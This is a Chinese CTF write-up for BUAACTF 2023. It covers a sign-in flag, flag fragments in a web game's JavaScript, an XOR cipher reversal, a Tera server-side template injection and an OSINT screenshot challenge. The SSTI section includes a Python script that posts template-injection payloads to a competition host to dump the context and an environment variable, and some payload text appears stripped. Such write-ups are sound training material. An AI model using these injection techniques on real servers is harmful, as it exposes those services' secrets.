{/* this article is moved to `mdx` because `md` somehow does not support imported images (???). Don't know if it is Astro's fault. */}

第一次打 CTF，看到 flag 的时候又想起几年前第一次写 Python 时在 Jupyter Notebook 中爬虫成功运行时的心态，真是久违的热情🥲

不过其实只算做出来了两道题，其他的都是签到题🙃

## 签到

### 题目

**53 pts**

> 欢迎来到第三届“蓝天杯”网络安全技能大赛！
>
>
> 关注赛博安全协会官方博客[https://or4ngesec.github.io/](https://or4ngesec.github.io/)
>
> 第一个flag就在其中^_^
>
> Hacking for fun, good luck for youuuuuuuuuu!
>
> flag格式: `BUAACTF{*}`

### 解答

查看 [仓库](https://github.com/or4ngeSec/or4ngesec.github.io) [历史](https://github.com/or4ngeSec/or4ngesec.github.io/commit/6e9bf5f026bfae02f93f579bd361fd41c6a08b55) 即可找到 flag，发现 flag 在关于页面，有 4 处。

### 截图



### Flag

```js
BUAACTF{W3lc0m3_t0_BUAACTF2023_3NjoY_l-l@ck1ng!}
```

## Mota

### 题目

**72 pts**

> 欢迎来到前端的世界！play&hack for fun!
>
> - [http://123.57.4.116:24268/](http://123.57.4.116:24268/)
>
> author:hiddener

### 解答

在 events.js 中用 <kbd>Ctrl</kbd> + <kbd>F</kbd> 搜索 `段` 可以找到分成 3 段的 flag。



#### 1

```js /BUAACTF/
case 51:
       useful= "BUAACTF{HT";
       Message = ["[Npc=3,仙子]恭喜你找到了第一段芙拉隔,它的值为","[Npc=3,仙子]"+useful];
       Event.ShowMessageList(Message,function(){
          Event.RemoveEvent("Npc",1,9,7);
        });
    break;
```

#### 2

```js /段/
case 52:
       text = "NV9tb3RhXzFz"
       useful = atob(text);
       Message = ["[Npc=3,仙子]哇!你拿下了第二段腐拉蛤,它是","[Npc=3,仙子]"+useful];
       Event.ShowMessageList(Message,function(){
          Event.RemoveEvent("Npc",0,0,5);
        });
    break;
```

控制台执行可得



#### 3

```js /段/
case 53:
       text = new Uint8Array([95, 115, 48, 95, 102, 117, 110, 33, 125]);
       useful = String.fromCharCode.apply(null, text);;
       Message = ["[Npc=3,仙子]奈斯!你找到了最后一段富菈哥,它的内容:","[Npc=3,仙子]"+useful];
       Event.ShowMessageList(Message,function(){
          Event.RemoveEvent("Npc",1,5,3);
        });
    break;
```

控制台执行可得



### 截图



### Flag

```js
BUAACTF{HT5_mota_1s_s0_fun!}
```

## **Block Cipher**

### 题目

**75 pts**

> Recall the experiments done in class!
>
> author:bangzhu
>
> [block-cipher-task.py](./block-cipher-task.py)

### 解答

用结果中的 `iv{:py}` 和 `key{:py}` 的替换掉 `encrypt{:py}` 函数中的随机数。加密的过程很简单。首先是将 flag 分割成了 8 字符一段的 `parts{:py}` 列表，然后对每一个 `part{:py}` 执行 `reduce(xor, [part, iv if index == 0 else results[-1], key]){:py}`——实际上对应的 result 就是 `part{:py}`、上一个结果或 `iv{:py}` 和 `key{:py}` 的**异或**。

```python {26-27}
import operator
import random
import re
from functools import reduce
# from secret import flag

def pad(s):
    padding_length = (8 - len(s)) % 8
    return s + chr(padding_length) * padding_length

def xor(a, b):
    assert len(a) == len(b)
    return bytes(map(operator.xor, a, b))

def encrypt(s):
    iv = b'\xba=y\xa3\xc6)\xcf\xf7' # bytes(random.randint(0, 255) for _ in range(8))
    key = b'}6E\xeb(\x91\x08\xa0' # bytes(random.randint(0, 255) for _ in range(8))
    parts = list(map(str.encode, map(pad, re.findall(r'.{1,8}', s))))
    print(parts)
    results = []
    for index, part in enumerate(parts):
        print(index, part)
        results.append(reduce(xor, [part, iv if index == 0 else results[-1], key]))
    return iv, key, results

# xor(part, result[-1], key)
# xor(part, y) = result, y = xor(result, y)

iv, key, parts = encrypt(
    "BUAACTF{abcdefgh}"
)
print(f"iv = {iv}")
print(f"key = {key}")
print(f"parts = {parts}")
```

由**异或**的性质，$D = A ⊕ B ⊕ C \Leftrightarrow A = D ⊕ B ⊕ C$，据此编码根据结果倒序还原，便可解出原 `parts{:py}`。

```python
parts = [b'\x85^}\t\xad\xec\x81,', b'\xba\x04W\xa1\xee"\xea\xc5', b'\xb7ZW\x18\x99\x82\xd6:', b'\x99\x03}\x9c\xde|\xb1\xc5', b'\xa1Tk.\x8b\xee\xbaf']
decrypted = ""
for i, value in reversed(list(enumerate(parts))):
    value = xor(value, key)
    prev = parts[i-1] if i > 0 else iv
    value = xor(value, prev)
    print(value)
    decrypted = value.decode() + decrypted
print("Flag:", decrypted)
```

**异或**的这个性质也被用于 RAID5：

> 三块磁盘（两块数据，一个块校验盘）其实就是：
> ```python
> c = a ^ b
> a = c ^ b
> b = a ^ c
> ```

### 截图



### Flag

```js
BUAACTF{BloCk_cIphER_14_Soooooo_EaSY}
```

## ****easy-ssti****

### 题目

> 非常只因础的SSTI，但不是flask。
>
> author:hiddener
>
> https://tera.netlify.app/docs/
>
> 尝试获取当前上下文-->获取敏感环境变量，不需要RCE。

在输入框中直接输入的符号都会被用百分号 escape，故编码发送请求。



查阅文档，发现

> There are 3 kinds of delimiters and those cannot be changed:
>
> - `{{` and `}}` for expressions
> - `` for statements
> - `{#` and `#}` for comments

但是，请求中的 `{{{:js}` 和 `}}{:js}` 被屏蔽了。

```python {9-10}
import requests
url = "http://10.212.25.14:49574/"
def fetch(data):
    body = "content=" + data
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    r = requests.post(url, data=body, headers=headers)
    print(r.text.replace("\\n", "\n").replace("\\", ''))
fetch("{}") # …<div class="result">您的身高为 {} cm</div>…
fetch("}}") # forbbidden!
fetch("{{") # forbbidden!
```

故只能使用 `` 嵌入流程控制语句。hint 中提示获取当前上下文，可知我们需要  `__tera_context{:rs}`。

> A magical variable is available in every template if you want to print the current context: `__tera_context{:rs}`.
>

随意构造一个错误的语句，从返回的报错中可以发现使用了 `Tera::one_off{:rs}` one off template。

```python
fetch("")

Error while rendering: Error { kind: Msg("Failed to parse '__tera_one_off'"), source: Some(Error { kind: Msg("  --> 18:35
   |
18 |         <div class="result">您的身高为  cm</div>
   |                                   ^---
   |
   = unexpected tag; expected end of input or some content"), source: None })
```

与字符串相关的有 `filter{:rs}`，但是并没有实际可以使用的，也没有函数可分割字符串。查阅文档发现 for 循环可以逐字符，不过比较坑的是 [Playground](https://tera.netlify.app/playground/) 的版本可能旧了，这个功能无法使用。

```rust

  {% if loop.index % 2 == 0%}
    <span style="color:red">{{ letter }}</span>
  
    <span style="color:blue">{{ letter }}</span>
  

```

因为 `println!{:rs}` 没有导入，不像 Flask 中有 `print{:py}` 可以用，不能直接输出变量的值。不过我们可以用一个有 128 个分支的 if 来输出所有 ASCII 字符。

输出 `__tera_context{:rs}` 后发现有一个环境变量 `se3ret{:sh}`，故我们还要用 `set{:rs}` 和 built-in 函数 `get_env{:rs}` 将其储存在一个变量中才能在 context 中看见它。

完整的代码如下：

```python
import requests
url = "http://10.212.25.14:49452/"

def get_branch(i):
    char = chr(i)
    quoted_char = f"""'{char}'""" if char != "'" else '''"'"'''
    return """ """ + char + " "

branches = map(get_branch, range(127))

data = """



    
    a""" + "\n".join(branches) + """
    
    <NOCHAR>
    

"""

print(data)

body = "content=" + data
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = requests.post(url, data=body, headers=headers)

print(r.text.replace("\\n", "\n").replace("\\", ''))
```

结果：

```html
    <!doctype html>
    <html>
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="https://cdn.bootcdn.net/ajax/libs/twitter-bootstrap/4.6.0/css/bootstrap.min.css">
        <link rel="stylesheet" href="/static/style.css">
        <title>身高计算器</title>
    </head>
    <body>
        <h1>身高计算器</h1>
        <h2>请输入你的身高</h2>
        <form action="/" method="post">
            <p><input type="text" name="content" placeholder="cm"></p>
            <p><input type="submit" value="提交"></p>
        </form>
        <div class="result">您的身高为

{"arr":["{
"name":"admin",
"work_dir":"/usr/admin/"
}
}"],"flag":"flag{RUSt_1S_S0_1NTere4T1NG}","worker":{"env_var":"se3ret","id":20379999,"name":"admin","work_dir":"/usr/admin/"}}
 cm</div>
    </body>
    </html>
```

### 截图



### Flag

```rs
flag{RUSt_1S_S0_1NTere4T1NG}
```

## Screenshot

### 题目

****262 pts****

> 小橘子在没事干的时候特别喜欢在各大社交平台灌水，某天他在某平台高强度冲浪的时候遇到了一位自称是BUAACTF2023出题人的网友。在交谈过程中，该网友不小心发送了一张电脑屏幕截图，这引起了小橘子的注意。如果能通过这张图片找到一些有用的信息，或许就能提前拿到比赛的flag……
>
>
> 小橘子在该社交平台上的id：@PaulGeo43512452
>
> author：ch3v4l，bangzhu
>

#### 附件



### 解答

[Ethereum.org](http://Ethereum.org) 的 Remix 没有社交功能，并且图中没有区块链信息。唯一符合要求的是第一个标签页的 Twitter。

搜索可见一串对话。用 Stegsolve.jar 对比附件中的图片和从 twimg 下载的图片，没有差异；用 [hexed.it](http://hexed.it/) 和 binwalk 也没发现有隐藏信息。

对话提示查看另一用户 NekoMaster0751 的 Github 仓库，在 bio 找到该用户的用户名。






查阅其 [仓库](https://github.com/c4Tch3r/c4Tch3r.github.io) 历史，发现最近有一次添加了一篇文章 [`2023/04/19/BUAACTF2022题解/index.html`](https://github.com/c4Tch3r/c4Tch3r.github.io/commit/37f0f346eed58051f6aae6fce2adfd2cd35e08cb#diff-9aaa784dbaf430cfa4250f3c98d7ea2ae272831162100c4f0eb2a856138dd167)，随后又 revert 的操作。



手动 revert 后，发现代码中并没有 flag。仔细查看，发现有多张图片没有加载。`meta{:html}` 标签中有两张 Open Graph 预览图，但不是 flag，正文中的才是。



[37e901a1b6cb8efdc24d9357875062c.png - SM.MS - Simple Free Image Hosting](https://smms.app/image/KA3Cm4z7hWDncyk)



### Flag

```js
BUAACTF{Scr33nsh0T_0N_s0c1@L_M3di4_C4N_I3ak_y0ur_pr1V4cy!}
```

## **问卷调查**

### 题目

